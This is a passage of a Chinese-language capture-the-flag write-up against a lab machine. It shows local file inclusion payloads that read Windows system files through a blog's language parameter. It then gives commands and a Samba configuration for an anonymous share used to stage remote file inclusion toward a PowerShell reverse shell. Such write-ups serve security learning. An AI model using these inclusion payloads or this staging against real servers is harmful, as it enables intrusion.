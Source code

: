 
发现开启了 80 web 服务，135端口，139端口，SMB 的445端口和49667的不明端口

打开网页寻找信息![Xnip2020-03-09_01-05-12](https://tva1.sinaimg.cn/large/00831rSTgy1gco72m0w22j31c00u0apt.jpg)

发现有两个可疑页面，一个是 http://10.10.10.151/user/login.php 用户注册，一个是 http://10.10.10.151/blog/index.php 

在 http://10.10.10.151/blog/index.php 中发现可以切换语言（http://10.10.10.151/blog/?lang=blog-en.php）

![Xnip2020-03-10_01-44-03](https://tva1.sinaimg.cn/large/00831rSTgy1gco7cffwvuj31d90u0thx.jpg)

这里可能存在 LFI 漏洞，尝试查看 hosts 文件和 win.ini 来验证

```php
10.10.10.151/blog/?lang=\windows\win.ini
10.10.10.151/blog/?lang=\windows\system32\drivers\etc\hosts
```

![Xnip2020-03-10_01-45-20](https://tva1.sinaimg.cn/large/00831rSTgy1gco7dnp57bj30y40u0qas.jpg)

![Xnip2020-03-10_01-33-08](https://tva1.sinaimg.cn/large/00831rSTgy1gco7840iyfj30w40u0ams.jpg)

[文件包含攻击初学者指南（LFI / RFI）](https://www.jianshu.com/p/8803aff98bfa)

之后尝试 RFI ，但 http 协议的都失败了，因为 RFI 需要的条件太严格了

> 在 allow_url_include = On 以及 allow_url_fopen = On 时，才允许远程包含文件，而默认情况下allow_url_include = Off

这里就需要尝试使用 LFI 绕过限制。下面这篇文章写得非常详细，我们可以通过 SMB 服务实现 RFI

[Exploiting Remote File Inclusion (RFI) in PHP application and bypassing remote URL inclusion restriction](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

## 0x02 从 LFI 到 RFI 再反弹 powershell 获取 user.txt

首先清空本机的 Samba 配置文件（最好提前备份），之后将上文给出的配置写进去（主要是给任意匿名用户读取 smb 文件夹的权限），最后重启 Samba 服务

```shell
1. mkdir /var/www/html/pub/  创建 samba 分享文件夹，位置名称随意

2. chmod 0555 /var/www/html/pub/
   chown -R nobody:nogroup /var/www/html/pub/ 配置权限

3. echo > /etc/samba/smb.conf

4. 写入
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[ica]  //这里可以改成自己的名字
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody

5. service smbd restart  重启服务
```
